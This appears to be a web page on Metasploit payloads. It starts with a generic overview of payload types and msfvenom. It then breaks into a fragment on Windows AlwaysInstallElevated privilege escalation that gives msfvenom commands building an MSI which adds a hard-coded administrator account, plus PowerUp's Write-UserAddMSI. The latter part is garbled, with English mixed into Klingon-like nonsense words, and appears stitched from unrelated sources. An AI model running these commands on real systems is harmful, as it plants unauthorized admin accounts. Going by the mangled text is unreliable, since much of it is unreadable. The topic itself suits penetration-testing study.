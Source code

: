 #### Introduction

Metasploit is a powerful framework that provides a wide range of tools and techniques for penetration testing and exploiting vulnerabilities. One of the key features of Metasploit is its ability to generate and deliver payloads, which are essentially pieces of code that can be executed on a target system to gain unauthorized access or perform other malicious activities.

#### Types of payloads

Metasploit offers various types of payloads, each designed to achieve different objectives. Some of the commonly used payload types include:

- **Reverse TCP**: This payload establishes a reverse TCP connection between the attacker and the target system, allowing the attacker to gain remote access to the system.

- **Bind TCP**: This payload listens for incoming TCP connections on a specified port, enabling the attacker to connect to the target system.

- **Meterpreter**: Meterpreter is a powerful payload that provides an interactive shell on the target system, allowing the attacker to execute commands, upload and download files, and perform various post-exploitation activities.

- **Shell**: This payload provides a basic command shell on the target system, allowing the attacker to execute commands and interact with the system.

- **VNC**: This payload enables the attacker to gain graphical remote access to the target system using the Virtual Network Computing (VNC) protocol.

#### Generating and delivering payloads

Metasploit provides a number of options for generating and delivering payloads. The `msfvenom` tool, which is part of the Metasploit framework, allows you to generate payloads in various formats, such as executable files, shellcode, and encoded payloads.

Once you have generated a payload, you can deliver it to the target system using various methods, such as social engineering techniques, exploiting vulnerabilities in software or services running on the target system, or by using client-side attacks.

#### Conclusion

Metasploit payloads are a crucial component of the framework, enabling attackers to gain unauthorized access to target systems and perform various malicious activities. Understanding the different types of payloads and how to generate and deliver them is essential for effective penetration testing and exploitation.
```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
**ghItlh** meterpreter **session** vItlhutlh. **module** **`exploit/windows/local/always_install_elevated`** **ghItlh** **automate** **technique** **vaj**.

### PowerUP

**Write-UserAddMSI** **command** **ghItlh** power-up **vIlegh** **Windows MSI binary** **vItlhutlh** **privileges** **ghItlh** **escalate**. **This script** **writes out** **precompiled MSI installer** **vItlhutlh** **user/group addition** **prompt** (so **GIU access** **be** **need**):
```
Write-UserAddMSI
```
**Qap** the created binary to **vItlhutlh** **privileges**.
